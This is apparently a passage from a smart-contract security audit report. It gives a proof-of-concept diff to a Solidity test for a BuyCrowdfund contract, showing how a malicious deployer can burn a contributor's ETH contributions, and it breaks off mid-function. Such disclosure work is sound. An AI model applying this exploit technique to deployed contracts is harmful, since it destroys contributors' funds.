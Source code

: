 This diff illustrates scenario 2, i.e. where a malicious deployer burns all contributions (1 ETH) of `contributor`. He loses 0.25ETH for the attack, but this could be reduced significantly (with more `burn(payable(address(0)))` calls:

```diff
--- a/sol-tests/crowdfund/BuyCrowdfund.t.sol
+++ b/sol-tests/crowdfund/BuyCrowdfund.t.sol
@@ -36,9 +36,9 @@ contract BuyCrowdfundTest is Test, TestUtils {
     string defaultSymbol = 'PBID';
     uint40 defaultDuration = 60 * 60;
     uint96 defaultMaxPrice = 10e18;
-    address payable defaultSplitRecipient = payable(0);
+    address payable defaultSplitRecipient = payable(address(this));
     uint16 defaultSplitBps = 0.1e4;
-    address defaultInitialDelegate;
+    address defaultInitialDelegate = address(this);
     IGateKeeper defaultGateKeeper;
     bytes12 defaultGateKeeperId;
     Crowdfund.FixedGovernanceOpts defaultGovernanceOpts;
@@ -78,7 +78,7 @@ contract BuyCrowdfundTest is Test, TestUtils {
                     maximumPrice: defaultMaxPrice,
                     splitRecipient: defaultSplitRecipient,
                     splitBps: defaultSplitBps,
-                    initialContributor: address(this),
+                    initialContributor: address(0),
                     initialDelegate: defaultInitialDelegate,
                     gateKeeper: defaultGateKeeper,
                     gateKeeperId: defaultGateKeeperId,
@@ -111,40 +111,26 @@ contract BuyCrowdfundTest is Test, TestUtils {
     function testHappyPath() public {
         uint256 tokenId = erc721Vault.mint();
         // Create a BuyCrowdfund instance.
-        BuyCrowdfund pb = _createCrowdfund(tokenId, 0);
+        BuyCrowdfund pb = _createCrowdfund(tokenId, 0.25e18);
         // Contribute and delegate.
         address payable contributor = _randomAddress();
         address delegate = _randomAddress();
         vm.deal(contributor, 1e18);
         vm.prank(contributor);
         pb.contribute{ value: contributor.balance }(delegate, "");
-        // Buy the token.
-        vm.expectEmit(false, false, false, true);
-        emit MockPartyFactoryCreateParty(
-            address(pb),
-            address(pb),
-            _createExpectedPartyOptions(0.5e18),
-            _toERC721Array(erc721Vault.token()),
-            _toUint256Array(tokenId)
-        );
-        Party party_ = pb.buy(
-            payable(address(erc721Vault)),
-            0.5e18,
-            abi.encodeCall(erc721Vault.claim, (tokenId)),
-            defaultGovernanceOpts
-        );
-        assertEq(address(party), address(party_));
-        // Burn contributor's NFT, mock minting governance tokens and returning
-        // unused contribution.
-        vm.expectEmit(false, false, false, true);
-        emit MockMint(
-            address(pb),
-            contributor,
-            0.5e18,
-            delegate
```